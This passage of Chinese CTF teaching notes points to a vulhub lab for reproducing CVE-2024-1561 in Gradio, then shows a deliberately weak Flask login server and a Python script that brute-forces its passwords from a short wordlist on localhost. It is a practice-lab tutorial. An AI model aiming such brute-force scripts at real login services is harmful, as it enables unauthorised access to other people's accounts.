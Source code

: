



### 小 demo
为了更好理解整个流程，大家熟悉整个漏洞复现，漏洞利用，环境搭建的整个过程

[vulhub/gradio/CVE-2024-1561 at master · vulhub/vulhub](https://github.com/vulhub/vulhub/tree/master/gradio/CVE-2024-1561)

大家可以参考这个 vulhub 靶场去复现一下 CVE-2024-1561 漏洞

具体复现细节见

写了一个小小流程示例，没有具体代码分析，为的就是会利用，知道流程

[CVE-2024-1561复现 - BX](https://www.bx33661.com/blog/CVE-2024-1561/)



## Python 应用
### Python 脚本演示
Python 在 CTF 中比赛中是脚本的主要实现语言

> 爆破密码登录账号的例子
>

flask 简单登录逻辑实现

```python
# server.py
from flask import Flask, request
app = Flask(__name__)
users = {'alice': '123456'}           # 只一个弱口令

@app.route('/login', methods=['POST'])
def login():
    u, p = request.form['u'], request.form['p']
    return 'OK' if users.get(u) == p else 'NO'

if __name__ == '__main__':
    app.run(port=8888)

```

爆破脚本如下

```python
# brute.py
import requests, sys
URL="http://127.0.0.1:8888/login"
USER= ['admin','alice']

DEFAULT_WORDLIST = [
    '123456', 'password', 'qwerty', 'letmein', 'admin', 'iloveyou', 'welcome', 'password123'
]
words = DEFAULT_WORDLIST
for i in USER:
    for pwd in words:
        print("尝试用户",i,"密码",pwd)
        if "OK" in requests.post(URL, data={"u": i, "p": pwd}).text:
            print("密码找到了:", pwd)
            break
        else:
            print("密码错误:", pwd)
    print("用户",i,"密码爆破完成")

```
